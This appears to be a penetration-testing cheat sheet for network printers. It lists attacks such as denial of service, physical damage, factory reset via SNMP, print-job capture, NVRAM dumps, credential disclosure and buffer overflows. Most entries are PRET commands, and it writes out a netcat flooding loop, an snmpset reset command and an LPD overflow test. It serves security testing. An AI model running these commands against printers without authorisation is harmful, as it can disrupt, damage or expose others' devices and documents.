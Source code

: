 Printer Security Testing Cheat Sheet

To systematically check for vulnerabilities in a printing device, first perform a generic network assessment and check for printer-specifc web based information leaks using Praeda. Then, use the following cheat sheet to quickly find flaws in printer languages and network protocols.
Category 	Attack 	Protocol 	Testing
Denial of service 	Transmission channel 	TCP 	while true; do nc printer 9100; done
Document processing 	PS 	PRET commands: disable, hang
PJL 	PRET commands: disable, offline
Physical damage 	PS 	PRET command: destroy
PJL 	PRET command: destroy
Privilege escalation 	Factory defaults 	SNMP 	snmpset -v1 -c public printer 1.3.6.1.2.1.43.5.1.1.3.1 i 6
PML 	PRET command: reset
PS 	PRET command: reset
Accounting bypass 	TCP 	Connect to printer directly, bypassing the print server
IPP 	Check if you can set a username without authentication
PS 	Check if PostScript code is preprocessed on print server
PJL 	PRET command: pagecount
Fax and Scanner 	multiple 	Install printer driver and (ab)use fax/scan functionality
Print job access 	Print job retention 	PS 	PRET command: capture
Print job manipulation 	PS 	PRET commands: cross, overlay, replace
Information disclosure 	Memory access 	PJL 	PRET command: nvram dump
File system access 	PS 	PRET commands: fuzz, ls, get, put, …
PJL 	PRET commands: fuzz, ls, get, put, …
Credential disclosure 	PS 	PRET commands: lock, unlock
PJL 	PRET commands: lock, unlock
Code execution 	Buffer overflows 	PJL 	PRET command: flood
LPD 	./lpdtest.py printer in "`python -c 'print "x"*3000'`"
Firmware updates 	PJL 	Flip a bit, check if the modified firmware is still accepted
Software packages 	multiple 	Obtain an SDK and write your own proof-of-concept application 
